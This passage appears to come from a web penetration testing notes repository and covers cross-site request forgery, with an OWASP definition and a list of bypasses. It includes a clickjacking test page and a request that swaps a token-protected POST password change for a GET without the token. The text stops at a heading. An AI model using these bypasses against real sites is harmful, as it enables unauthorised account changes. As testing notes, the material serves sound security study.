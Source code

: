 ```yaml
---
description: 'CWE-352: Cross-Site Request Forgery (CSRF)'
---
```


# CSRF

### What it is ??

Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP

## Methodology

![image](https://github.com/h0tak88r/Web\_Penetration\_Testing\_Notes/assets/108616378/f32ef6f7-cf71-4fbb-a95b-c598a20e2199)

## **CSRF** Bypass

* [ ] **CSRF Bypasses**
  *   **ClickJacking**

      ```html
      <html>
       <head>
       <title>Clickjack test page</title>
       </head>
       <body>
       <p>This page is vulnerable to clickjacking if the iframe is not blank!</p>
       <iframe src="PAGE_URL" width="500" height="500"></iframe>
       </body>
      </html>
      ```
  *   **Change Request Method**

      ```http
      # Request
      POST /password_change
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      (POST request body)
      new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
      --------------------------------------------

      # Bypass
      GET /password_change?new_password=abc123
      Host: email.example.com
      Cookie: session_cookie=YOUR_SESSION_COOKIE
      ```
  *   **Bypass CSRF Tokens stored on the server**
